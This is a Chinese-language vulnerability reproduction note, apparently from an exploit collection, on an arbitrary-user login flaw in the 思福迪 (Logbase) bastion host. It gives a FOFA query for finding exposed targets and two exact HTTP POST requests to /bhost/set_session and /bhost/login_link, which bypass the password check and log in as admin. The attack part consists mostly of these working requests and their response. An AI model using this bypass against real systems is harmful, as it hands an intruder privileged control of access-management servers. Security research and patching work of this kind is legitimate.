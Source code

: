 ```yaml
---
title: 思福迪堡垒机 任意用户登录漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 思福迪堡垒机
---
```


# 思福迪堡垒机 任意⽤户登录漏洞

## 漏洞描述

思福迪堡垒机存在任意⽤户登录漏洞，恶意攻击者可以绕过堡垒机的密码登录验证机制，以任
意⽤户身份随意登录堡垒机Web管理界⾯，并可以正常的使⽤账户权限去操作。

## 漏洞影响

> [!NOTE]
>
> 思福迪堡垒机

## FOFA

> [!NOTE]
>
> "Logbase运维安全管理系统"

## 漏洞复现

获取INFO字段，u1参数值为⽤户名

```
POST /bhost/set_session HTTP/1.1
Host: xxx.xxx.xxx.xx
u1=admin&m1=
```

获得：**{"result":true,"info":"1562205376847","ErrMsg":""}**

带⼊INFO字段进⼊如下请求的 a0 参数值中,uCode参数值为⽤户名

```
POST /bhost/login_link HTTP/1.1
Host: xxx.xxx.xxx.xxx
a0=1562205376847&a1=&a10=2019-01-
01+10:10:10&ha=CADFDF26E649FB6284D2FD424BD294B6&uCode=admin&vdcode=
```

利用后即可登录后台

![](/img/20210924015418289221.png)